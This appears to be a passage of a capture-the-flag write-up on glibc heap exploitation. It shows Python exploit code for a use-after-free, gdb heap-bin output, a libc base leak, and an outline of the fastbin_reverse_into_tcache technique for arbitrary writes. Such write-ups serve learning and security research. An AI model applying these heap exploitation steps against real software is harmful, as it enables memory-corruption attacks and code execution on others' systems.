 ```python
free_in_x_funds(first_uaf, num_fill_tcache + 2)
p.clean()

for i in range(num_fill_tcache + 2):
    run_funds()
    p.clean()
```
The first `num_fill_tcache +  1` frees fill up the tcache, and the last free frees the id of `first_uaf` into the fastbin and the name into the unsorted bin.
```
(gdb) heapinfoall

(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x563d03def330 --> 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x563d03def480 (size : 0x1db80)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x563d03def0e0 (size : 0x90)
(0x20)   tcache_entry[0](1): 0x563d03deed40
(0x50)   tcache_entry[3](7): 0x563d03def0a0 --> 0x563d03deef70 --> 0x563d03deee40 --> 0x563d03deecf0 --> 0x563d03deeb30 --> 0x563d03def390 --> 0x563d03def3e0
(0x60)   tcache_entry[4](1): 0x563d03def430
(0x80)   tcache_entry[6](1): 0x563d03dec480
(0x90)   tcache_entry[7](7): 0x563d03def220 --> 0x563d03deefc0 --> 0x563d03deee90 --> 0x563d03deed60 --> 0x563d03deec10 --> 0x563d03deeb80 --> 0x563d03def2b0
(0x100)   tcache_entry[14](1): 0x563d03dec910
(0x1e0)   tcache_entry[28](1): 0x563d03dec2a0
```
Perfect.

```python
# this only gets the name, we don't care
# about our debt, just like
addr = get_balance(b'\x00' * 8 + first_uaf[8:])[:8]
<snip>
heap_ptr = u64(addr)
print(f"Leaked unsorted bin {heap_ptr}")
libc_base = heap_ptr - 0x1ebbe0 # determined through experimentation
print(f"Leaked libc base {heap_ptr}")
```
Sidenote: jupyter notebooks for pwn (especially heap) would be quite pog

## Arbitrary writes

Now that we have libc, we just need an arbitrary write primitive. The easiest one I know is to free an allocation into both the tcache
and the freelist, sort of what we have [in this how2heap example (fastbin_reverse_into_tcache)](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/fastbin_reverse_into_tcache.c).
The general idea is to convince malloc that a custom pointer we provide (while freed in the fastbin) is actually the pointer to the next chunk, so after enough allocations we get
malloc to return an arbitrary pointer.
